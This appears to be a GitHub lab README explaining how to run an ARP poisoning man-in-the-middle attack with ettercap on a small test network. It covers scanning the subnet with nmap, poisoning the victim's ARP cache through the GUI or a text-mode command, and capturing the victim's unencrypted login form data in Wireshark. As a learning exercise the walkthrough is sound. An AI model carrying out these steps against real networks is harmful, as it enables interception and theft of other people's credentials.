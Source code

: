# ettercap

Performing ARP (address resolution protocol) poisoning attack.

- Tricking the victim's ARP cache table (list of connection a device is connecting to) that the router host (laptop 1 - 10.0.0.1) MAC address is the attacker's MAC address (RP - 10.0.0.2). 

1. Download wireshark, nmap and ettercap (graphical or text-based)

   - `sudo apt update`
   - `sudo apt install nmap`
   - `sudo apt install wireshark -y`
   - `sudo apt install ettercap-graphical ettercap-text-only -y`
     - Will install both graphical & text version

2. Scan for devices on RP - difference approches

   - `nmap -sn 10.0.0.2/24` - be sure to include the CIDR (Classless Inter-Domain Routing) or the range of the subnet mask /24.
   - `arp` or `arp -a` to display all host connected to RP

3. Attacking Devices

   - <u>Graphical Version</u>

     - Open ettercap under internet
     - Pick the interface and press 'accept'
     - Go to 'host' and click 'scan host' to find other devices connected to the interface
     - Than click 'host list' to view available connections.
     - Click on the router interface and right click and pick 'Add to target 1' and add the victim device as target 2
     - Than select MITM icon and pick 'ARP Poisoning` and press 'okay'
       - `only poisoning one-way` will capture the packet from the victims device, not the router. Thus POST request received from the router will not send to the attacker.
     - On 10.0.0.3 laptop, login or signup on the site
     - Open Wireshark and filter for http and find packet with POST request
       - Expand `HTML form URL` to inspect unencrypted form input

   - <u>Text Version</u>

     - Simply type:
   
       ```bash
       sudo ettercap -text_only -disable_ssl -MITM_attack attack_method:remote /router_gateway_ip// /victim_ip//
       ```
   
       ```bash
       sudo ettercap -T -S -i -M arp:remote /10.0.0.1// /10.0.0.3//
       ```
   
     - On 10.0.0.3 laptop, login or signup on the site
     
     - Open Wireshark and filter for http and find packet with POST request
     
       - Expand `HTML form URL` to inspect unencrypted form input
